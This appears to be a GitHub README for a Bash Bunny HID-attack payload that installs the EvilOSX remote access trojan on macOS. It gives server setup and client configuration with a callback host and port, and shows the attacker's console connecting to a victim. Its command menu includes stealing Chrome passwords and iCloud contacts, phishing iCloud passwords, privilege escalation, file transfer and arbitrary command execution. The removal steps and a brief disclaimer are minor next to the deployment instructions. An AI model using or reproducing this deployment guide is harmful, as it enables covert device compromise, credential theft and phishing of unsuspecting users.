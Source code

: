 # untitled_EVILOSX

````
 +  ______       _  _   ____    _____ __   __ 
 + |  ____|     (_)| | / __ \  / ____|\ \ / /
 + | |__ __   __ _ | || |  | || (___   \ V / 
 + |  __|\ \ / /| || || |  | | \___ \   > <  
 + | |____\ V / | || || |__| | ____) | / . \ 
 + |______|\_/  |_||_| \____/ |_____/ /_/ \_\\
 + untitled_ bash bunny edition    /   stekole
`````

** Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. ** 
** Accessing a computer system or network without authorization or explicit permission is illegal. **


## Features
 * Client reconnects automatically/persistence 
 * ECM_ETHERNET and HID attack
 * Emulate a simple terminal instance.
 * Sockets are encrypted with CSR via OpenSSL.
 * No dependencies (pure python).
 * Retrieve Chrome passwords.
 * Retrieve iCloud contacts.
 * Attempt to get iCloud password via phishing.
 * Show local iOS backups.
 * Download and upload files.
 * Retrieve find my iphone devices.
 * Attempt to get root via local privilege escalation (<= 10.10.5).
 * Auto installer


## Configuration


### Server

 To prep your server you will need to download and follow the install instructions from EVILOSX. 
 
 On your server, download the EvilOSX code and run your server. 
  ````
      git clone https://github.com/Marten4n6/EvilOSX.git && cd EvilOSX
      ./Server 
  ````
and type your listening port (1337)

### Client

Before you deploy your bash bunny, update your configuration in the EvilOSX.py file

At the bottom of the file you will see a server and port variable 

Set these to your server IP and listening port

````
  #########################
  SERVER_HOST = "10.99.99.16"
  SERVER_PORT = 1337
  #########################
````


## Usage

Plug in your bash bunny and wait until the script has finished running. 

You should see the client connect to the server

````
root@kali:~/git/EvilOSX# ./Server.py 
  ______       _  _   ____    _____ __   __
 |  ____|     (_)| | / __ \  / ____|\ \ / /
 | |__ __   __ _ | || |  | || (___   \ V / 
 |  __|\ \ / /| || || |  | | \___ \   > <  
 | |____\ V / | || || |__| | ____) | / . \ 
 |______|\_/  |_||_| \____/ |_____/ /_/ \_\
 
[?] Port to listen on: 1337
[I] Type "help" to get a list of available commands.
> help
help              -  Show this help menu.
status            -  Show debug information.
clients           -  Show a list of clients.
connect <ID>      -  Connect to the client.
exit              -  Close the server and exit.
> clients
[I] 1 client(s) available:
    0 = client_hostname
> connect 0
[I] Connected to "client_hostname", ready to send commands.
````


Some of the other features can be found in the help menu. I have not tried them all

````
help              -  Show this help menu.
status            -  Show debug information.
clients           -  Show a list of clients.
connect <ID>      -  Connect to the client.
get_info          -  Show basic information about the client.
get_root          -  Attempt to get root via local privilege escalation.
download <path>   -  Downloads the file to the local machine.
upload <path>     -  Uploads the file to the remote machine.
chrome_passwords  -  Retrieve Chrome passwords.
icloud_contacts   -  Retrieve iCloud contacts.
icloud_phish      -  Attempt to get iCloud password via phishing.
itunes_backups    -  Show the user's local iOS backups.
find_my_iphone    -  Retrieve find my iphone devices.
screenshot        -  Takes a screenshot of the client.
kill_client       -  Brutally kill the client (removes the server).
exit              -  Exits the session.
Any other command will be executed on the connected client.
````

## Removal of Tool

The python script gets added to users ~/Library/ directory - and startup file is added to the ~/Library/LaunchAgents directory
````
rm -rf ~/Library/Containers/.EvilOSX/
launchctl unload ~/Library/LaunchAgents/com.apple.EvilOSX.plist && rm -rf ~/Library/LaunchAgents/com.apple.EvilOSX.plist
````

## Defence 
 * disable the command-space short key for spotlight or disable spotlight all together if not needed

## Todo

## Issues
 * I ran into a few issues with the "Build" of the python script.
 If the default one in this payload doesnt work, regenerate a new EvilOSX.py
 
 Run ./BUILDER and enter the appropriate information: 
 

 ![](http://i.imgur.com/NQRPFXS.png)

After, copy this to your switch payload

## Thanks
* [@Marten4n6](https://github.com/Marten4n6/EvilOSX)
* [YOURMOM](Check my room)
